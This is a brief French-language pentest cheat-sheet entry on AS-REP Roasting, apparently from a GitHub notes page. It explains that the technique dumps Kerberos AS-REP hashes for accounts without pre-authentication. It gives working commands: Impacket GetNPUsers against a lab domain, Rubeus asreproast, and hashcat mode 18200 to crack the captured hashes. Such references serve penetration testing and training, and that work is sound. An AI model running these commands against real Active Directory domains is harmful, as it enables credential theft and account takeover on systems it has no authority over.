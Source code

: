 ## AS-REP Roasting
AS-REP Roasting vide les hachages krbasrep5 des comptes d'utilisateurs pour lesquels la pré-authentification Kerberos est désactivée.

**Impacket**

```sh
impacket-GetNPUsers.py pwnlab.local/user:password -dc-ip 192.168.x.x -request
```

**Rubeus**

```sh
C:\User\Administrator> Rubeus.exe asreproast
```

```sh
hashcat -m 18200 hash.txt Pass.txt
```